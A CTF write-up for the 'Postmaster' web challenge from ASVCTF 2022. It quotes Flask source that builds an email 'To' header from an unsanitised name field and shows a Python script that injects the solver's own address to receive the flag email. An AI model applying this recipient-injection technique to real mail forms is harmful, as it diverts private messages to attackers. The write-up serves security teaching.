


# ASVCTF 2022 - Postmaster Writeup
- Type - Web
- Name - Postmaster
- Points - 300

## Description
```markdown
Now introducing: email-based flag delivery.

https://postmaster.boats/
```

## Writeup
Accessing the site revealed another simple page:



Clicking on the link to Source revealed the source code, found [here](source.py). The important part is this:

```python
@app.route('/send_email', methods=['POST'])
def send_email():
    name = flask.request.form['name']
    email_address = flask.request.form['email']

    if '\n' in name or '\r' in name:
        return flask.redirect('/?m=badname')
    if not EMAIL_REGEX.match(email_address):
        return flask.redirect('/?m=bademail')

    mail = MIMEMultipart('alternative')
    mail['From'] = 'postmaster.boats <noreply@postmaster.boats>'
    mail['To'] = name + ' <' + email_address + '>'
    if email_address == 'admin@email.invalid':
        mail['Subject'] = 'Flag'
        mail.attach(MIMEText(app.config['FLAG'], 'plain'))
    else:
        mail['Subject'] = 'Sorry, try again'
        mail.attach(MIMEText('No flag for you :(', 'plain'))

    smtp_client = smtplib.SMTP(timeout=2)
    smtp_client.connect('localhost')
    smtp_client.send_message(mail)
```

The gist is that sending a POST request to the `/send_email` endpoint with two parameters, `name` and `email`, will cause the system to send an email through an SMTP server to the email address specified with the name attached. To get the flag, the email needs to be set to `admin@email.invalid` - the problem is, if that's the email, then we will never see the flag since we don't own that email. 

Upon closer inspection, one line stands out - `mail['To'] = name + ' <' + email_address + '>'`. The `name` and `email_address` parameters are piped directly into "To" SMTP header, and the only validation on `name` is no newlines (`/n`, `/r`). This means we can insert a name such as `Test <myemail@gmail.com>` and then the email as `admin@email.invalid`, making the "To" line `Test <myemail@gmail.com> <admin@email.invalid>`. This will send the email to us, but the `email` parameter will still give us the flag. 

### Solve Script
Here is my [automated exploit](solve.py) in Python:

```python
import requests
from urllib.parse import urlencode

# define payload
payload = urlencode({
        "name": "Legoclones <INSERT_EMAIL_HERE@gmail.com> ",
        "email": "admin@email.invalid",
    })

# send request and get result
result = requests.request("POST", "https://postmaster.boats/send_email", data=payload, headers={'Content-Type': 'application/x-www-form-urlencoded'})

# check response
if "Email sent!" in result.text:
    print("Check your email for the flag")
else:
    print("Something went wrong")
    print(result.text)
```

Email I received (in my spam folder):



**Flag:** `ASV{y0U_hAd_Me_@_EHLO}`